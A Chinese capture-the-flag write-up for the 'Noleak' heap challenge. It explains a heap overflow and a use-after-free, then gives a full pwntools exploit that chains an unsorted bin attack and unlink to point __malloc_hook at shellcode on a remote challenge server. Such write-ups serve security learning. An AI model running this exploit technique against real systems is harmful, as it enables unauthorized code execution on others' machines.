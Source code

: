 # Noleak


# 涉及知识

+ Unsorted bin attack
+ Unlink
+ 利用泄漏的Unsorted地址获得__malloc_hook

<!--more-->

# 程序分析

## 保护机制

![image.png](https://i.loli.net/2020/05/20/4sQo39lPABKkTeU.png)

RELRO保护全开启，plt，got表等没有写权限，但是NX保护没有开启，可以自己写shellcode。

## 漏洞分析

![image.png](https://i.loli.net/2020/05/20/Ne3x4u6OQVoJLd9.png)

在update函数中，程序没有对读入字节做限制，存在堆溢出。

![image.png](https://i.loli.net/2020/05/20/UMDr42iglFPZfB8.png)

在delete函数中，free后没有对指针清零。UAF，Double free，Unsorted攻击等都可以使用。

## 思路

由于程序RELRO全开启，无法泄漏libc地址，就如题目一样，No leak。但是可以利用Unsorted攻击，将Unsorted的地址attack到储存指针的变量上。Unsorted的地址低8位修改为\x10后，刚好为__malloc_hook的地址。我们在将__malloc_hook的值修改为我们的shellcode。

*__malloc_hook的工作原理和__free_hook类似。在默认情况下__malloc_hook值为null，当malloc函数调用时，会先判断__malloc_hook是否为空，如果不为空，就会执行__malloc_hook指向的函数*

如何修改Unsorted的低8位呢？在这里有几种办法，可以使用Unlink attack，也可以使用fastbin attack。

# EXP

````python
from pwn import *

context.arch='amd64'
context.os='linux'
#sh=process('./timu')
sh=remote('111.198.29.45',40228)
elf=ELF('./timu')
def create(size,data):
	sh.recvuntil(':')
	sh.sendline('1')
	sh.recvuntil(':')
	sh.sendline(str(size))
	sh.recvuntil(':')
	sh.sendline(data)

def delete(index):
	sh.recvuntil(':')
	sh.sendline('2')
	sh.recvuntil(':')
	sh.sendline(str(index))

def update(index,size,data):
	sh.recvuntil(':')
	sh.sendline('3')
	sh.recvuntil(':')
	sh.sendline(str(index))
	sh.recvuntil(':')
	sh.sendline(str(size))
	sh.recvuntil(':')
	sh.send(data)

#create
create(0x90,'aaa') #0
create(0x90,'bbb') #1
create(0x90,'ccc') #2

#unsorted attack
delete(0)
unsorted_addr=0x601050
payload='a'*8+p64(unsorted_addr)
update(0,0x90,payload)
create(0x90,'aaa') #3

#unlink attach
#fake chunck
aim=0x601048
payload='a'*8+p64(0x91)+p64(aim-0x18)+p64(aim-0x10)+'a'*0x70+p64(0x90)+p64(0xa0)
update(1,0xa0,payload)
delete(2)

#eidit unsorted
shell=0x601030
update(1,0xa0,asm(shellcraft.sh())+'\x10')
update(4,0x8,p64(shell))
sh.recvuntil(':')
sh.sendline('1')
sh.recvuntil(':')
sh.sendline('2')
sh.interactive() 
````

# 反思

+ 堆利用多种技术结合会碰撞出不一样的火花

+ Unsorted变量和__malloc_hook这样的变量储存的位置较近

## 参考

[Unsorted + Fastbin](https://wanghaichen.com/index.php/archives/noleak.html)
